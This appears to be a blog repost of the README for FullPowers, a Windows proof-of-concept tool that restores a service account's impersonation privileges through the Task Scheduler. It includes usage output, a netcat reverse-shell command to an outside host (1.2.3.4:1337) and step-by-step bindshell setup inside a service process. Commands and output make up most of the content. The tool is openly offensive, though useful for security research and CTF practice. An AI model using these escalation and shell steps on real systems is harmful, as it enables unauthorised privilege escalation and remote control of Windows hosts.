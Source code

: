 ```yaml
---
title: Windows提权工具FullPowers
date: 2025-07-03 16:10:24
description: Windows提权
tags:
- Windows
- Privillege Escalation
categories:
- CTF
---
```


# FullPowers

___FullPowers___ is a Proof-of-Concept tool I made for automatically recovering the __default privilege set__ of a service account including __SeAssignPrimaryToken__ and __SeImpersonate__. 

On Windows, some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to __run with a restricted set of privileges__. Therefore, even if the service is compromised, __you won't get the golden impersonation privileges__ and privilege escalation to `LOCAL SYSTEM` should be more complicated. However, I found that, when you __create a scheduled task__, the new process created by the __Task Scheduler Service__ has __all the default privileges__ of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.

For more information: https://itm4n.github.io/localservice-privileges/

## Usage

:warning: __This tool should be executed as `LOCAL SERVICE` or `NETWORK SERVICE` only.__

You can check the help message using the `-h` option.

```
c:\TOOLS>FullPowers -h

FullPowers v0.1 (by @itm4n)

  This tool leverages the Task Scheduler to recover the default privilege set of a service account.
  For more information: https://itm4n.github.io/localservice-privileges/

Optional arguments:
  -v              Verbose mode, used for debugging essentially
  -c <CMD>        Custom command line to execute (default is 'C:\Windows\System32\cmd.exe')
  -x              Try to get the extended set of privileges (might fail with NETWORK SERVICE)
  -z              Non-interactive, create a new process and exit (default is 'interact with the new process')
```

### Example 1, basic usage
```
c:\TOOLS>FullPowers
[+] Successfully created scheduled task. PID=9976
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

### Example 2, specify a custom command line
```
c:\TOOLS>FullPowers -c "powershell -ep Bypass"
[+] Successfully created scheduled task. PID=9028
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\WINDOWS\system32> Get-ExecutionPolicy
Bypass
```

### Example 3, start a netcat reverse shell and exit
```
c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
[+] Successfully created scheduled task. PID=5482
[+] CreateProcessAsUser() OK
```

## How-To

__You want to test this PoC yourself? That's great!__ Here are some simple instructions to get you started.

The overall idea is to start a bindshell from the process of an existing service, connect to it and then run the executable. 

1. You'll need 2 third-party tools, [netcat](https://eternallybored.org/misc/netcat/) and [RunFromProcess](https://www.nirsoft.net/utils/run_from_process.html).  
2. Pick a service which has limited privileges, e.g.: `upnphost`.  
3. Open the __Task Manager__, go to the __Services__ tab and get the __PID__ of the corresponding process.  
4. Use the following command to start the bindshell __as an administrator__:  
```
C:\TOOLS>RunFromProcess-x64.exe <PID> C:\TOOLS\nc64.exe -l -p 9001 -e cmd
```
5. Use the following command to connect to the bindshell:  
```
C:\TOOLS>nc64.exe 127.0.0.1 9001
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description              State
======================= ======================== =======
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeCreateGlobalPrivilege Create global objects    Enabled
```
6. We can see that the current process has no impersonation privileges. Now run the PoC...  
```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 5568
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

You should now have a shell __with impsersonation privileges__!

